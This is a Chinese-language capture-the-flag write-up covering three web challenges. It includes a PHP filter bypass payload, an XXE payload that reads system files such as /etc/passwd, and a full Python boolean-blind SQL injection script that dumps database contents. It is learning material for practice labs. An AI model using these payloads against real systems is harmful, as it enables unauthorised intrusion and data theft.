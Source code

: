 # 0x01.[MRCTF2020]套娃

源代码中：

```php
//1st
$query = $_SERVER['QUERY_STRING'];
 //计算第二个参数在字符串中出现的次数：
 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

第一个if考察`$_SERVER['QUERY_STRING']`获取的是未经url解码的查询字符串，因此将`_`url编码后可绕过。（url编码大小写不敏感）

或者：PHP会将传参中的空格( )、小数点(.)自动替换成下划线

第二个if考察`preg_match()`只能匹配单行字符串，会将换行符后的字符串忽略。

payload:`?b%5Fu%5Fp%5Ft=23333%0a`

返回一个文件：`secrettw.php`

访问后是jsfuck，执行之后提示post发Merak

之后返回部分代码：

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
	echo "Your REQUEST is:".change($_GET['file']);
	echo file_get_contents(change($_GET['file'])); 
}
?>  
```

ip访问：`client-ip:127.0.0.1`

file_get_contents函数使用php://input协议绕过，注意input是post传。

change函数的作用就是base64加密file参数内容，转换ascii并+$i*2

逆着写一遍：

```php
<?php
function unchange($v){ 
    $re = '';
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return $re; 
}
$real_flag = unchange('flag.php');
echo base64_encode($real_flag);
?>
    //ZmpdYSZmXGI=
```

![image-20220414224607121](0x01-0x20/image-20220414224607121.png)

# 0x02.[NCTF2019]True XML cookbook

看题目应该是XXE，发包之后确实应该是，源码处也能看出来。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [<!ENTITY a SYSTEM "file:///flag">]>
<user><username>&a;</username><password>testtest</password></user>
```

直接读flag读不出来，应该是没有这个文件，挨个读一下下面的：

-   /etc/hosts 储存域名解析的缓存
-   /etc/passwd 用户密码
-   /proc/net/arp 每个网络接口的arp表中dev包

![image-20220414232912174](0x01-0x20/image-20220414232912174.png)

![image-20220414232640607](0x01-0x20/image-20220414232640607.png)

。。。和wp不一样？

应该就是这么做了，arp读ip地址，之后http去扫那个网段就行了，，

# 0x03.[WUSTCTF2020]颜值成绩查询

布尔盲注

抄个exp：

```python
import requests
import time
url = 'http://2a5366fc-3743-4cf1-84eb-3bdd5cea88b0.node4.buuoj.cn:81/'

database = ""

# 库名为ctf
payload1 = "?stunum=1^(ascii(substr((select(database())),{},1))>{})^1"
# 表名为flag,score
payload2 = "?stunum=1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='ctf')),{},1))>{})^1"
# 列名为flag,value
payload3 = "?stunum=1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),{},1))>{})^1"
payload4 = "?stunum=1^(ascii(substr((select(group_concat(value))from(ctf.flag)),{},1))>{})^1"
for i in range(1, 10000):
    time.sleep(1)
    low = 32
    high = 128
    mid = (low + high) // 2
    while(low < high):
        # payload = payload1.format(i,mid)  #查库名
        # payload = payload2.format(i,mid)  #查表名
        # payload = payload3.format(i,mid)  #查列名
        payload = payload4.format(i, mid)  # 查flag

        new_url = url + payload
        r = requests.get(new_url)
        # print(new_url)
        if "Hi admin, your score is: 100" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    database += chr(mid)
    print(database)

```

















